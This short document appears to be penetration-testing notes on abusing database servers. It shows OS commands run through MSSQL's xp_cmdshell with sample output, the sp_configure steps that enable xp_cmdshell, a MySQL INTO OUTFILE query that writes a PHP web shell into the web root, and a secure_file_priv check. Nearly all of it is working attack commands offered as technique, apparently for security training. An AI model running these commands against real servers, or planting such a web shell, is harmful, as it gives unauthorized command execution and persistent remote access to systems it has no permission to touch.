 ## Execute Commands

```powershell
1> xp_cmdshell 'whoami'
2> GO

output
-----------------------------
no service\mssql$sqlexpress
NULL
(2 rows affected)
```

* If `xp_cmdshell` is not enabled, we can enable it, if we have the appropriate privileges

```powershell
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
RECONFIGURE
GO
```

## Write Local Files

```sh
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';

Query OK, 1 row affected (0.001 sec)
```

#### MySQL - Secure File Privileges

```sh
mysql> show variables like "secure_file_priv";

+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+

1 row in set (0.005 sec)
```
